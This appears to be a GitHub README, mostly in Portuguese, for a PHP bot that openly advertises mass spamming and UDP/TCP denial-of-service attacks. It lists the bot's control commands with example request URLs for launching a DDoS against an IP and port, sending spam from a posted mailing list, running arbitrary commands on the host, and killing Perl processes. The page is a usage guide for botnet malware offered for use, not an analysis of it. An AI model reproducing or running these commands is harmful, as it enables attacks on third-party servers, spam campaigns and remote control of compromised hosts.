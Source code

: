 # PHP Bot (DDoS/Spam)
Bot em PHP utilizado para enviar emails em massa e realizar ataques DDoS (Negação de Serviço).

Functions...
 DDos, Spam (Perl e PHP), Run command, Kill Perl running.

Functions details...
 DDoS:
   command = ddos.
   flag = Attack method: udp, tcp.
   data = IP:PORT.
   
   phpBot.php?hash=admin&command=ddos&flag=udp&data=111.111.111.111:22
   
 Spam:
   command = spam, phpspam (spam via mail() function).
   flag = 1 é padrão para spam normal. 
          Para phpspam, 1 = Usa função system() para rodar enviador, 
          2 = Utiliza todas as funções (Envia repetido).
   data = null (default).
   
   POST data:
    maillist=...&subject=...&from=...&message=...
     
   phpBot.php?hash=admin&command=spam&flag=1&data=null
   
 Run file:
   command = run.
   flag = 1 (default).
   data = Command to run
 
   phpBot.php?hash=admin&command=run&flag=1&data=dir.exe
   
 Kill dependencies:  
   command = kill.
   flag = 1 (default).
   data = null (default)
 
   phpBot.php?hash=admin&command=kill&flag=1&data=null

